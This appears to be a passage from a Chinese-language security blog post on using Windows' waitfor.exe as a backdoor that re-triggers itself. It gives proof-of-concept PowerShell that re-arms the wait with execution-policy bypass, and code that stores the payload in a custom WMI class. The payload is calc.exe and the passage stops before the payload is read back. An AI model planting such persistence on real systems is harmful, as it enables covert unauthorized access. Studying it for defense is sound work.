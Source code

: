如果作为一个后门，那么上面的利用方法还不够成熟

因为触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

需要再次开启一个等待模式，才能再次触发后门

当然，可以在每次后门触发后手动开启一个等待模式

但这不够智能，能否通过脚本实现自动开启等待模式，使其成为一个可持续触发的后门呢？

为此，我写了以下POC


### 思路1：

在目标系统保存一个ps脚本1.ps1

1.ps1内容如下：

```
start-process calc.exe
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:\test\1.ps1
```

**注：**

转义字符&在powershell中要用`&表示


**开启等待模式：**

cmd：

`waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1`

**发送信号：**

cmd：

`waitfor /s 127.0.0.1 /si persist1`


### 思路2：

不在目标系统保存文件



这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```


读取payload：
